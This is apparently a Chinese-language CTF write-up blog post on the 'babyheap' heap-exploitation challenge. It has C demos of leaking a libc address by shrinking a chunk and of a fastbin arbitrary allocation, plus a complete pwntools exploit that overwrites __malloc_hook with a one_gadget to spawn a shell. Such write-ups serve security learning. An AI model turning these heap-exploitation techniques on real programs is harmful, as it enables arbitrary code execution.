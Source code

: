 ```yaml
---

layout: post

title: 'babyheap学习总结'

date: '2018-01-17'

header-img: "img/home-bg.jpg"

tags:
     - pwn 堆利用  
author: 'De4dCr0w'

---
```


### 漏洞原型

#### （1）通过shrink the chunk来leak libc地址

shrink the chunk demo 代码：

<!-- more -->

```
#include <stdlib.h>
#include <stdio.h>

int main()
{
    int i;
    char data[100];
    memset(data,'\x00',sizeof(data));
    char *A = malloc(0x30);
    char *B = malloc(0x160);
    char *C = malloc(0xf0);

    free(B);
    free(A);

    malloc(0x38);

    while(i < 0x38)
        data[i++] = 'a';
    data[i] = '\x00';

    memcpy(A,data,0x39);

    malloc(0x80);

    malloc(0x30);

    free(B);

    free(C);

    char *D = malloc(0x260);

    printf("info_leak_libc:%p\n",*(unsigned long *)(D+0x90));

    return 0;
}

```

泄露信息libc 地址的对布局过程：

![image](./image/leakinfo.jpg)

泄露出来的只是main_arena+x的地址，而main_arena的地址位于__malloc_hook+0x10的地方，所以  
main_arena_offset = __malloc_hook_offset+0x10  
x = leak_address - (__malloc_hook_address+0x10)
libc_base_address = leak_address - (x + main_arena_offset)

最后只要求出泄露出来的地址和libc基地址的偏移就行：  
offset = leak_address - __malloc_hook_address + __malloc_hook_offset

计算 main_arena的偏移有个工具可以使用：  https://github.com/Escapingbug/get_main_arena

#### （2）通过fastbin attack修改程序流程

atbitrary alloc demo代码：

```
int main(void)
{


    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1b05;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```

### exp代码

```
from pwn import *

#context.terminal = ['tmux', 'splitw', '-h']

context.log_level = 'debug'

def Allocate(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size:")
    p.sendline(str(size))
#    index = p.recvuntil("1. Allocate").split(' ')[3].split('\n')[0]
    index =1
    return index

def Fill(index,size,content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index:")
    p.sendline(str(index))
    p.recvuntil("Size:")
    p.sendline(str(size))
    p.recvuntil("Content:")
    p.sendline(content)



def Free(index):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index:")
    p.sendline(str(index))

def Dump(index):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index:")
    p.sendline(str(index))
    p.recvuntil("Content: \n")
    data = p.recvline()
    return data

def Exit():
    pass


if __name__=='__main__':

    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6_b86ec517ee44b2d6c03096e0518c72a1")}

    p = process("./babyheap",env=env)
#    libc = ELF("./libc.so.6.my")
    libc = ELF("./libc.so.6_b86ec517ee44b2d6c03096e0518c72a1")
    libc.symbols['one_gadget'] = 0x41374
    libc_offset = 0x3a5678
 
    index0 = Allocate(16)
    index1 = Allocate(480)
    index2 = Allocate(512)
    index3 = Allocate(512)

    #gdb.attach(p)
    Free(1)

    payload = 'a'*24 + '\x30'
    Fill(0,25,payload)

    index4 = Allocate(128) #index:1
    index5 = Allocate(96) #index:4

    Free(1)
    Free(2)

    Allocate(128) #index:1
    data = Dump(4)
    data = u64(data[:8])
    print hex(data)
    libc.address = data - libc_offset
	
    payload = 'b'*0x80+p64(0x90)+p64(0x70)
    #payload = flat('b'*0x80,0x90,0x70)
    Fill(1,len(payload),payload)
    Free(4) #释放了0x70的堆块
     
  
    payload = 'c'*0x80+p64(0x90)+p64(0x70)
    payload += p64(libc.symbols['__malloc_hook']-0x23)

    #错位构造出一个0x000000000000007f

    Fill(1,len(payload),payload); #修改0x70的堆块的fd值
    Allocate(96) #index:2 重新申请到0x70的堆块，此时calloc会擦除fd和bk的数据，但是之前的fd会被保存在main_arena上
    Allocate(96) #index:4 根据伪造的fd地址，申请到__malloc_hook-0x23的位置

    gdb.attach(p)

    payload = 'd'*19 + p64(libc.symbols['one_gadget'])#覆盖__malloc_hook为/bin/sh的地址，0x23 -0x10（header）= 0x13 = 19,所以覆盖19个'd'后，再覆盖就是__malloc_hook的地址了。
    Fill(4,len(payload),payload)

    Allocate(96)
    p.interactive()

```

最后更改malloc_hook最后调用/bin/sh了，这里还有一个工具，用来找libc里的magic gadget，也就是将控制流放到这就能调用/bin/sh而不用考虑参数的问题的：  
https://github.com/david942j/one_gadget/tree/master/spec

### 参考链接

https://ctf-wiki.github.io/ctf-wiki/pwn/heap/fastbin_attack.html

https://poning.me/2017/03/24/baby-heap-2017/

https://github.com/david942j/one_gadget
